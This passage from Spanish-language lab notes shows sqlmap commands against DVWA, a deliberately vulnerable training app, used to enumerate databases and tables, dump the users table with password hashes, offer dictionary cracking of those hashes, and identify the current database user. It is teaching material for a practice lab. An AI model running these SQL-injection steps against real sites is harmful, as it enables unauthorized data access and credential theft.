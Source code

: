🔹 **Donde**:
- `--dbs`: Es la *flag* que indica al sqlmap que queremos obtener las bases de datos existentes

**RESULTADO ESPERADO**
👉 **Lista con las bases de datos existentes** (dvwa, information_schema, metasploit, mysql, etc)

## 3. Listar tablas de DVWA
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" -D dvwa --tables
```

O bien,
```bash
sqlmap -r request.txt -D dvwa --tables
```

🔹 **Donde**:
- **`-D`**: Especifica la **base de datos** (*dvwa* en este caso)
- **`--tables`**: Le pedimos que **enumere todas las tablas** dentro de esa base de datos.

**RESULTADO ESPERADO**
👉 **Lista de tablas existentes en la base de datos dvwa**

## 4. Obtener usuarios y contraseñas
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" -D dvwa -T users --dump
```

🔹 **Donde**:
- `-T` Especifica la tabla en la base de datos (en este caso, *users*)
- `--dump` Indica a SQLmap que **extraiga todo el contenido** de esa tabla.

**RESULTADO ESPERADO**
👉 **Tabla sql con los datos que almacena**, y, particularmente en este caso, el hash de las contraseñas (con su de-hash si se activó la opción)

>[!info] Observaciones:
>Cuando pregunta `do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] ` nos da la opción de almacenar los *hashes* en un archivo, en caso de querer trabajar aparte con ellos
>Cuando pregunta `do you want to crack them via a dictionary-based attack? [Y/n/q] ` nos da la opción de romper las contraseñas utilizando un diccionario
>

## 5. Identificar usuarios de la base de datos
**🟣1.1 Identificarse a sí mismo**
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" --current-user
```

O bien,
```bash
sqlmap -r request.txt --current-user
```
